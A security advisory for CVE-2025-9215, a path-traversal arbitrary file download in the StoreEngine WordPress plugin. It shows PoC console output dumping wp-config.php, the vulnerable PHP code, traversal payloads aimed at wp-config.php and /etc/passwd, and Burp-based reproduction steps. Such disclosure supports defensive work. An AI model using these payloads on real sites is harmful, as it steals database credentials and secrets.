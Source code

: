 +++
title = 'StoreEngine Powerful WordPress eCommerce Plugin for Payments, Memberships, Affiliates, Sales & More <= 1.4.0 - Authenticated (Subscriber+) Arbitrary File Download'
date = 2025-09-16T00:00:00+00:00
hideToc = true
+++
### CVE-2025-9215

The [StoreEngine](https://wordpress.org/plugins/storeengine/) plugin contains a vulnerability in its CSV Import/Export feature that allows **any authenticated user** (subscriber, author, editor, etc.) to download arbitrary files from the server, including sensitive system files, WordPress configuration files, and plugin source code. The vulnerability stems from the `storeengine_csv/file_download` endpoint lacking proper path sanitization and only relying on nonce verification for security, while the `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. **Note: This vulnerability requires the CSV Import/Export addon to be enabled by an administrator.** Once enabled, this combination allows any authenticated user to extract the nonce from frontend pages and use it to download any file on the server via path traversal attacks, effectively granting subscriber+ users access to sensitive system and application files.

## TL;DR Exploits
* A POC [CVE-2025-9215.py](https://github.com/d0n601/CVE-2025-9215/blob/main/CVE-2025-9215.py) is provided to demonstrate a subscriber user downloading the WordPress configuration file via path traversal.
  
```console
 python3 ./CVE-2025-9215.py http://localhost:1337 user1 password   
Logging into: http://localhost:1337/wp-admin
NOTE: This exploit works with any authenticated user (subscriber, author, editor, etc.)
Extracting nonce from frontend scripts (accessible to any user)...
storeengine_nonce: 82cb37f678
NOTE: This nonce is exposed to ALL frontend users, making the vulnerability exploitable by any authenticated user!
NOTE: CSV Import/Export addon must be enabled by an administrator before exploitation.
This exploit demonstrates the vulnerability once the addon is already enabled.
The addon activation requires 'manage_options' capability (admin only).

Downloading wp-config.php via path traversal...
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the installation.
 * You don't have to use the website, you can copy this file to "wp-config.php"
 * and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * Database settings
 * * Secret keys
...
...
...
```

## Details  

### **Vulnerable File Download Function**
**Note: This vulnerability requires the CSV Import/Export addon to be enabled by an administrator.** The addon activation endpoint (`storeengine/saved_addon_status`) requires `manage_options` capability, meaning only administrators can enable this functionality.

The `storeengine_csv/file_download` AJAX action calls the `file_download()` function on line [47](https://plugins.trac.wordpress.org/browser/storeengine/trunk/addons/csv/ajax/export.php#L47) of `/wp-content/plugins/storeengine/addons/csv/ajax/export.php`, which lacks proper path sanitization and allows arbitrary file downloads:

```php
public function file_download( array $payload ) {
    if ( ! isset( $payload['filename'] ) ) {
        wp_send_json_error( __( 'Filename is required.', 'storeengine' ) );
    }

    $filename = $payload['filename'];
    $filepath = Helper::get_upload_dir() . '/csv/' . $filename;  // <-- VULNERABLE TO PATH TRAVERSAL!
    
    // NO CAPABILITY CHECK - ANY USER CAN DOWNLOAD ANY FILE!
    // NO PATH SANITIZATION - DIRECT CONCATENATION ALLOWS ../ ATTACKS!
    
    if ( ! file_exists( $filepath ) ) {
        wp_send_json_error( __( 'File not found.', 'storeengine' ) );
    }

    header( 'Content-Type: application/octet-stream' );
    header( 'Content-Disposition: attachment; filename="' . $filename . '"' );
    readfile( $filepath );  // <-- READS AND OUTPUTS ANY FILE!
    exit;
}
```

### **Path Construction Vulnerability**
The vulnerable path construction allows complete path traversal:

```php
// Helper::get_upload_dir() returns:
$upload = wp_upload_dir();
return $upload['basedir'] . '/storeengine_uploads';

// So the full path becomes:
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/' . $filename;

// With path traversal, this becomes:
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/../../../wp-config.php'
$filepath = '/path/to/wp-content/uploads/storeengine_uploads/csv/../../../../../../etc/passwd'
```


### **Nonce Exposure Vulnerability**
The `storeengine_nonce` is exposed to **ALL frontend users** through the plugin's JavaScript. This occurs in the `_get_script_data()` method on line [279](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L279) of `/wp-content/plugins/storeengine/includes/assets.php`:

```php
public function _get_script_data(): array {
    // ... other data ...
    return [
        'nonce'             => wp_create_nonce( 'wp_rest' ),
        'storeengine_nonce' => wp_create_nonce( 'storeengine_nonce' ), // Line 279 - EXPOSED TO ALL USERS
        'rest_url'          => esc_url_raw( rest_url() ),
        // ... other data ...
    ];
}
```

This nonce is then localized to frontend JavaScript via the `frontend_scripts()` method on line [120](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/assets.php#L120):

```php
wp_localize_script(
    'storeengine-frontend-scripts',
    'StoreEngineGlobal',
    $this->get_frontend_script_data() // Calls _get_script_data()
);
```

### **Nonce Verification**
The nonce is verified in the `AbstractRequestHandler::check_permission()` method on line [510](https://plugins.trac.wordpress.org/browser/storeengine/trunk/includes/classes/abstract-request-handler.php#L510) of `/wp-content/plugins/storeengine/includes/classes/abstract-request-handler.php`:

```php
protected function check_permission( string $capability, bool $allow_visitors = false ) {
    if ( ( ! is_user_logged_in() && ! $allow_visitors ) || ( is_user_logged_in() && $capability && ! current_user_can( $capability ) ) ) {
        return new WP_Error(/* ... */);
    }
    return true;
}
```

This combination allows any authenticated user to bypass CSRF protection and download any file on the server, including sensitive configuration files, source code, and potentially system files.

## Manual Reproduction
1. Login to the admin panel and navigate to the StoreEngine plugin.
2. Go to the CSV Export section (if available in the admin interface).
3. Start up Burp Suite or a similar tool and begin intercepting the traffic.
4. Intercept a request to `/wp-admin/admin-ajax.php` calling the `storeengine_csv/file_download` action.
5. Modify the request to include the extracted nonce and a path traversal payload.
6. Send the request with `filename=../../../../wp-config.php` to download the WordPress configuration file.
7. Access sensitive configuration files including database credentials, API keys, and security salts.
